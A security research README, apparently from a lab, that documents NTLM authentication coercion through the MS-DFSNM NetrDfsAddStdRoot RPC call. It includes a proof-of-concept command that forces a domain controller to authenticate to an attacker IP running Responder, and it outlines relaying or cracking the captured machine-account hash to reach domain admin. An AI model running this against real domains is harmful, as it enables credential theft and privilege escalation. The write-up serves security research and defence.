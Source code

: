 # MS-DFSNM - Remote call to NetrDfsAddStdRoot (opnum 12)

## Summary

 - **Protocol**: [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)

 - **Protocol UUID**: 4fc742e0-4a10-11cf-8273-00aa004ae673

 - **Protocol version**: 3.0

 - **SMB Named pipe**: ``

 - **Function name**: [`NetrDfsAddStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d)

 - **Function operation number**: `12`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol (with uuid `4fc742e0-4a10-11cf-8273-00aa004ae673` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-DFSNM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979) and allows to call RPC functions of this protocol. We will then call the remote [`NetrDfsAddStdRoot`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrDfsAddStdRoot("192.168.2.51\x00", "share\x00", "comment\x00", 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
NET_API_STATUS NetrDfsAddStdRoot(
    [in, string] WCHAR* ServerName,
    [in, string] WCHAR* RootShare,
    [in, string] WCHAR* Comment,
    [in] DWORD ApiFlags
);
```


 - **ServerName**: The pointer to a null-terminated Unicode string. This is the host name of the new DFS root target.


 - **RootShare**: The pointer to a null-terminated Unicode string. This is the new DFS root target share name as well as the DFS namespace name. The share MUST already exist.


 - **Comment**: The pointer to a null-terminated Unicode string that contains a comment associated with the DFS namespace. Used for informational purposes, this string has no protocol-specified restrictions on length or content. The comment is meant for human consumption and does not affect server functionality. This parameter MAY be a NULL pointer.


 - **ApiFlags**: This parameter is reserved for future use and is ignored by the server.


## References

 - Documentation of protocol [MS-DFSNM]: Distributed File System (DFS): Namespace Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979

 - Documentation of function `NetrDfsAddStdRoot`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/b18ef17a-7a9c-4e22-b1bf-6a4d07e87b2d
